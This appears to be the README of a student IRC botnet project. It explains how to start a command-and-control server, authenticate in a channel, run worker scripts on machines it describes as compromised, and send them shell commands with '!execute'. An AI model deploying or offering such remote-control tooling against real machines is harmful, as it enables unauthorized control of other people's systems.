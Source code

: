 # python-botnet
An IRC command & control botnet. Use this to communicate with machines that you have compromised and gained access to.

## How to use
Inside the directory run the command
```
python boss.py
```
Now open your favorite IRC chat client and connect to the IRC server (default is i'rc.freenode.net'), join the given channel (default is #cs460botnet-jlchao2).

In the chat box type:
```
!auth password
```
with whatever password you started boss.py with (default is 'password').

On a compromised machine, run:
```
python worker.py -n *name*
```
with some *name* for the worker.

Now in the IRC client, you can type:
```
!status
```
and see that there is one worker available.

You can send commands for the worker(s) to run:
```
!execute [num-workers] *command*
```
for example
```
!execute run vmstat
```
and view the output with:
```
!print
```

